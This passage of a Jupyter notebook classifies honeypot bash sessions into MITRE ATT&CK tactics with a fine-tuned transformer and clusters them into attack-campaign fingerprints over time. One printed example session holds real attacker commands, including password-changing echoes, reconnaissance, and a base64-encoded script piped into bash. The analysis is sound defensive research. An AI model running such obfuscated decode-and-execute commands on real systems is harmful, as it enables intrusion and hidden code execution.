              (dense): Linear(in_features=768, out_features=768, bias=True)
            

In [79]:
# 3) Prediction function (improved version)
def predict_tags(words):
    """
    Predict MITRE tags for a list of bash words.
    Returns only predictions for the first token of each word.
    """
    if not words or len(words) == 0:
        return []

    # Tokenize with word boundary preservation
    encoding = tokenizer(
        words,
        is_split_into_words=True,
        return_tensors="pt",
        truncation=True
    )

    # Move to device
    inputs = {k: v.to(device) for k, v in encoding.items()}

    # Get predictions
    with torch.no_grad():
        outputs = model(**inputs)

    logits = outputs.logits.cpu().squeeze(0)
    preds = logits.argmax(dim=-1).tolist()

    # Get word_ids from the same encoding
    word_ids = encoding.word_ids(batch_index=0)

    # Align predictions: keep only first token prediction for each word
    preds_word = []
    prev_word_idx = None

    for idx, word_idx in enumerate(word_ids):
        if word_idx is None:  # Special tokens
            continue
        if word_idx != prev_word_idx:  # First token of a new word
            if word_idx < len(words):  # Safety check
                preds_word.append(id2label[preds[idx]])
            prev_word_idx = word_idx

    return preds_word

# Apply predictions
print("Making predictions...")
data['predicted_tags'] = data['words'].apply(predict_tags)

# Verify predictions
print("Sample predictions:")
for i in range(3):
    words = data['words'].iloc[i][:10]  # First 10 words
    tags = data['predicted_tags'].iloc[i][:10]  # First 10 tags
    print(f"Session {i}: {list(zip(words, tags))}")

Making predictions...
Sample predictions:
Session 0: [('enable', 'Discovery'), (';', 'Discovery'), ('system', 'Discovery'), (';', 'Discovery'), ('shell', 'Discovery'), (';', 'Discovery'), ('sh', 'Discovery'), (';', 'Discovery'), ('cat', 'Discovery'), ('/proc/mounts;', 'Discovery')]
Session 1: [('enable', 'Discovery'), (';', 'Discovery'), ('system', 'Discovery'), (';', 'Discovery'), ('shell', 'Discovery'), (';', 'Discovery'), ('sh', 'Discovery'), (';', 'Discovery'), ('cat', 'Discovery'), ('/proc/mounts;', 'Discovery')]
Session 2: [('enable', 'Discovery'), (';', 'Discovery'), ('system', 'Discovery'), (';', 'Discovery'), ('shell', 'Discovery'), (';', 'Discovery'), ('sh', 'Discovery'), (';', 'Discovery'), ('cat', 'Discovery'), ('/proc/mounts;', 'Discovery')]


In [80]:
from collections import Counter

commands = ['cat', 'grep', 'echo', 'rm']
tag_freq = {cmd: Counter() for cmd in commands}

# Ensure we use the per-session list of predicted tags (not the flattened list created in cell 63)
preds_per_session = data['predicted_tags']

# Prepare container for example positions
sample_sessions = {(cmd, tag): [] for cmd in commands for tag in unique_labels}

for i in range(len(data)):
    words = data['trunc_session'][i].split(" ")            # list of words
    preds_i = preds_per_session[i]                # list of predicted tag strings
    if not isinstance(preds_i, (list, tuple)):
        # Skip if predictions malformed
        continue
    for pos, (word, pred_tag) in enumerate(zip(words, preds_i)):
        if word in commands and pred_tag in unique_labels:
            tag_freq[word][pred_tag] += 1
            sample_sessions[(word, pred_tag)].append((i, pos))

rows = []
for cmd, freq in tag_freq.items():
    total = sum(freq.values())
    for tag in unique_labels:
        count = freq.get(tag, 0)
        frequency = count / total if total > 0 else 0
        rows.append({'Command': cmd, 'Tag': tag, 'Frequency (%)': f"{frequency * 100:.2f}"})

df_cmd_tag = pd.DataFrame(rows)
df_pivot = df_cmd_tag.pivot(index='Command', columns='Tag', values='Frequency (%)')
display(df_pivot)

rows = []
for cmd, freq in tag_freq.items():
    total = sum(freq.values())
    for tag in unique_labels:
        count = freq.get(tag, 0)
        rows.append({'Command': cmd, 'Tag': tag, 'Count': f"{count}"})

df_cmd_tag = pd.DataFrame(rows)
df_pivot = df_cmd_tag.pivot(index='Command', columns='Tag', values='Count')
display(df_pivot)


for (command, tag), examples in sample_sessions.items():
    if examples:
        print(f"Command: {command}, Predicted Tag: {tag}")
        print("Example Sessions:")
        sentence_id, position_id = examples[0]
        session_words = data.iloc[sentence_id]['trunc_session']  # already a list
        snippet = ''.join(session_words)
        print(f"- {snippet} (Session ID: {sentence_id}, Position: {position_id})\n")
        print()

Tag,Defense Evasion,Discovery,Execution,Impact,Not Malicious Yet,Other,Persistence
Command,,,,,,,
cat,0.00,99.97,0.03,0.00,0.00,0.00,0.00
echo,0.00,30.17,24.23,0.00,0.09,0.03,45.48
grep,0.00,99.96,0.00,0.00,0.00,0.00,0.04
rm,12.29,85.63,0.50,0.00,0.00,0.00,1.58


Tag,Defense Evasion,Discovery,Execution,Impact,Not Malicious Yet,Other,Persistence
Command,,,,,,,
cat,0,861230,293,1,0,0,0
echo,0,229188,184045,0,721,243,345474
grep,0,995967,0,0,0,0,407
rm,42345,295118,1726,0,0,0,5445


Command: cat, Predicted Tag: Execution
Example Sessions:
- cat /proc/cpuinfo | grep name | wc -l ; echo -e "admin\nvqckfz14Dsq3\nvqckfz14 ; Enter new UNIX password:  ; echo "admin\nvqckfz14Dsq3\nvqckfz14 ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9;}' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ; echo "admin admin" > /tmp/up.txt ; rm -rf /var/tmp/dota* ; cat /var/tmp/.systemcache436621 ; echo "1" > /var/tmp/.systemcache436621 ; cat /var/tmp/.systemcache436621 ; sleep 15s && cd /var/tmp; echo "IyEvYmluL2Jhc2gKY2QgL3RtcAkKc | base64 --decode | bash (Session ID: 121, Position: 117)


Command: cat, Predicted Tag: Discovery
Example Sessions:
- enable ; system ; shell ; sh ; cat /pro

In [81]:
session_fingerprints = data['predicted_tags'].apply(
    lambda x: tuple(x) if isinstance(x, (list, tuple)) else (x,)
)

# Attach to dataframe (length now matches number of rows)
data['fingerprint'] = session_fingerprints

print("Total number of sessions:", len(data['fingerprint']))
unique_fingerprints = set(tuple(pred) for pred in data['fingerprint'])
print("Total number of fingerprints (sessions):", len(unique_fingerprints))
print("Unique fingerprints:")
print(unique_fingerprints)


# Create a dataframe with first occurrence timestamp for each unique fingerprint
dataframe_fingerprint = (
    data.sort_values(by='timestamps_statements')
        .groupby('fingerprint', as_index=False)
        .first()[['fingerprint', 'timestamps_statements']]
        .sort_values(by='timestamps_statements')
        .reset_index(drop=True)
)

display(dataframe_fingerprint)

# Map each fingerprint tuple to an id
fingerprint_to_id = {fp: idx for idx, fp in enumerate(dataframe_fingerprint['fingerprint'])}

# Build (date, fingerprint_id) pairs
pairs = [
    (pd.to_datetime(row.timestamps_statements).date(),
     fingerprint_to_id[row.fingerprint])
    for row in data.itertuples(index=False)
]

dict_day_fingerprint = Counter(pairs)
sorted_list = sorted(dict_day_fingerprint.items(),
                     key=lambda x: (x[0][0], x[0][1]))  # (date, fingerprint_id)

for i in sorted_list[:10]:
    print(i)

Total number of sessions: 174262
Total number of fingerprints (sessions): 6003
Unique fingerprints:
{('Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Persistence', 'Persistence', 'Persistence', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discove

,fingerprint,timestamps_statements
0,"(Discovery, Discovery, Discovery, Discovery, D...",2019-09-01 00:00:10.493808+00:00
1,"(Discovery, Discovery, Discovery, Discovery, D...",2019-09-01 00:38:41.134935+00:00
2,"(Discovery, Discovery, Discovery, Discovery, D...",2019-09-01 00:39:26.263383+00:00
3,"(Discovery, Discovery, Discovery, Discovery, D...",2019-09-01 00:54:51.783935+00:00
4,"(Discovery, Discovery, Discovery, Discovery, D...",2019-09-01 03:18:19.464706+00:00
...,...,...
5998,"(Discovery, Discovery, Discovery, Discovery, D...",2019-12-28 23:55:42.110341+00:00
5999,"(Discovery, Discovery, Discovery, Discovery, D...",2019-12-29 01:52:46.250259+00:00
6000,"(Discovery, Discovery, Discovery, Discovery, D...",2019-12-29 01:53:41.950037+00:00
6001,"(Discovery, Discovery, Discovery, Discovery, D...",2019-12-29 14:02:57.135953+00:00


((datetime.date(2019, 9, 1), 0), 12)
((datetime.date(2019, 9, 1), 1), 24)
((datetime.date(2019, 9, 1), 2), 32)
((datetime.date(2019, 9, 1), 3), 56)
((datetime.date(2019, 9, 1), 4), 7)
((datetime.date(2019, 9, 1), 5), 3)
((datetime.date(2019, 9, 1), 6), 3)
((datetime.date(2019, 9, 1), 7), 2)
((datetime.date(2019, 9, 1), 8), 2)
((datetime.date(2019, 9, 1), 9), 1)




In [82]:
from matplotlib.colors import LinearSegmentedColormap
import matplotlib.colors as mcolors

dates = [item[0][0] for item in sorted_list]
fingerprint_indices = [item[0][1] for item in sorted_list]
counts = [item[1] for item in sorted_list]

log_counts = np.log10(np.array(counts) + 1)
sizes = (log_counts) ** 2 * 100
red_blue_cmap = LinearSegmentedColormap.from_list('RedBlue', ['#0000FF', '#FF0000'])

plt.figure(figsize=(10, 6))
scatter = plt.scatter(
    dates,
    fingerprint_indices,
    s=sizes,
    c=np.array(counts),
    cmap=red_blue_cmap,
    norm=mcolors.LogNorm(vmin=max(1, min(counts)), vmax=max(counts)),
    alpha=0.8,
    edgecolors='white',
    linewidth=0.5
)

cbar = plt.colorbar(scatter)
cbar.set_label('Number of Sessions', fontsize=18)
cbar.ax.tick_params(labelsize=14)

plt.xlabel('Date', fontsize=18)
plt.ylabel('Fingerprint Index', fontsize=18)
plt.title('Sessions Assigned to Fingerprints Over Time', fontsize=18, fontweight='bold', pad=10)

plt.xticks(rotation=45, fontsize=14)
plt.yticks(fontsize=14)
plt.grid(True, linestyle='--', alpha=0.7)

plt.tight_layout()
plt.show()


In [83]:
from collections import defaultdict
def compressed_fingerprint(fingerprint):
    # fingerprint may already be a sequence of label strings (e.g. 'Execution')
    # or a sequence of integer ids. Convert ints via id2label, keep strings.
    if not fingerprint:
        return []
    tags = []
    for p in fingerprint:
        if isinstance(p, (int, np.integer)):
            tags.append(id2label[p])
        else:  # assume already a label string
            tags.append(p)
    compressed_tags = []
    prev = tags[0]
    count = 1
    for tag in tags[1:]:
        if tag == prev:
            count += 1
        else:
            compressed_tags.append(f"{prev}*{count}" if count > 1 else prev)
            prev = tag
            count = 1
    compressed_tags.append(f"{prev}*{count}" if count > 1 else prev)
    return compressed_tags

fingerprint_counts = Counter(tuple(f) for f in data['fingerprint'])
all_dates = set(date for date, _ in pairs)
fingerprint_to_dates = defaultdict(set)
for date, fingerprint_id in pairs:
    fingerprint_to_dates[fingerprint_id].add(date)
fingerprints_present_every_day = [
    fingerprint_id for fingerprint_id, dates in fingerprint_to_dates.items()
    if dates == all_dates
]
fingerprint_over80percent_days = [
    fingerprint_id for fingerprint_id, dates in fingerprint_to_dates.items()
    if len(dates) >= 0.8 * len(all_dates)
]
print()
print("=" * 50)
print(f"Total number of unique days: {len(all_dates)}")
print(f"Fingerprints present every day in the dataset: {len(fingerprints_present_every_day)}")

if(len(fingerprints_present_every_day)):
  print("- Examples -")
  for f_id in fingerprints_present_every_day[:]:
      f = dataframe_fingerprint.iloc[f_id]['fingerprint']
      print(f"• {compressed_fingerprint(f)}")
  print("=" * 50)
print("=" * 50)

print(f"Fingerprints present in at least 80% of days: {len(fingerprint_over80percent_days)}")
if(len(fingerprint_over80percent_days)):
  print("- Examples -")
  for f_id in fingerprint_over80percent_days[:]:
      f = dataframe_fingerprint.iloc[f_id]['fingerprint']
      print(f"• {compressed_fingerprint(f)}")
  print("=" * 50)
print()


large_fingerprints = [f for f, count in fingerprint_counts.items() if count > 2000]
print(f"Fingerprints with more than 2000 associated sessions: {len(large_fingerprints)}")
print("- Examples -")
for f in large_fingerprints:
    print(f"• {compressed_fingerprint(f)}")
print()

print("Detecting suspicious attack campaigns based on fingerprint activity...")
print(f"Suspicious fingerprints (more than 2000 sessions): {len(large_fingerprints)}")
print()

most_common_fingerprints = fingerprint_counts.most_common(10)

print("Most common fingerprints:\n")
for idx, (fingerprint, count) in enumerate(most_common_fingerprints, 1):
    compressed = compressed_fingerprint(fingerprint)
    sessions = data[data['fingerprint'].apply(lambda x: x == fingerprint)]
    session_examples = sessions['trunc_session'].head(3).tolist()

    print(f"Fingerprint #{idx}")
    print("-"*40)
    print(f"Compressed: {compressed}")
    print(f"Total Sessions: {count}")
    print(f"Example Sessions:")
    for ex_idx, sess in enumerate(session_examples, 1):
        print(f"  {ex_idx}. {sess}")
    print("-"*40 + "\n")
print()



Total number of unique days: 118
Fingerprints present every day in the dataset: 0
Fingerprints present in at least 80% of days: 7
- Examples -
• ['Discovery*50', 'Defense Evasion', 'Discovery*2']
• ['Discovery*50', 'Defense Evasion*3']
• ['Discovery*53']
• ['Discovery*50', 'Defense Evasion*2', 'Discovery']
• ['Discovery*9', 'Persistence*8', 'Discovery*104', 'Execution*9']
• ['Discovery*9', 'Persistence*8', 'Discovery*102', 'Execution*11']
• ['Discovery*9', 'Persistence*8', 'Discovery*103', 'Execution*10']

Fingerprints with more than 2000 associated sessions: 12
- Examples -
• ['Discovery*50', 'Defense Evasion*2', 'Discovery']
• ['Discovery*9', 'Persistence*8', 'Discovery*104', 'Execution*9']
• ['Discovery*9', 'Persistence*8', 'Discovery*102', 'Execution*11']
• ['Discovery*9', 'Persistence*8', 'Discovery*103', 'Execution*10']
• ['Discovery*9', 'Persistence*12', 'Discovery*86']
• ['Discovery*9', 'Persistence*12', 'Discovery*77', 'Persistence*4', 'Execution*2', 'Defense Evasion*3']
• ['



In [84]:
from matplotlib.patches import Patch

legend_order = ['Discovery', 'Persistence', 'Execution', 'Defense Evasion',]
legend_order += [l for l in unique_labels if l not in legend_order]

color_palette = plt.get_cmap('tab10')
label_colors = {label: color_palette(i) for i, label in enumerate(unique_labels)}
legend_handles = [Patch(color=label_colors[label], label=label) for label in legend_order]

fig, ax = plt.subplots(figsize=(12, 3))

for idx, (fingerprint, count) in enumerate(most_common_fingerprints[:10]):
    # Fingerprint elements are already label strings; convert only if they are ints
    tags = [id2label[p] if isinstance(p, (int, np.integer)) else p for p in fingerprint]
    colors = [label_colors[tag] for tag in tags]
    for i, color in enumerate(colors):
        ax.barh(idx, 1, left=i, color=color, edgecolor='none', height=0.8)

ax.set_yticks(range(10))
ax.set_yticklabels([f"Fingerprint #{i+1}" for i in range(10)], fontsize=12)
ax.set_xlabel("Token Position", fontsize=14)
ax.set_title("First 10 Most Common Fingerprints (Tag Sequence Color Bar)", fontsize=16, fontweight='bold')
ax.set_xlim(0, max(len(f) for f, _ in most_common_fingerprints[:10]) + 2)
ax.invert_yaxis()
ax.tick_params(axis='x', labelsize=12)
ax.grid(False)

ax.legend(handles=legend_handles, bbox_to_anchor=(1.01, 1), loc='upper left', fontsize=12, title="MITRE Tag")

plt.tight_layout()
plt.show()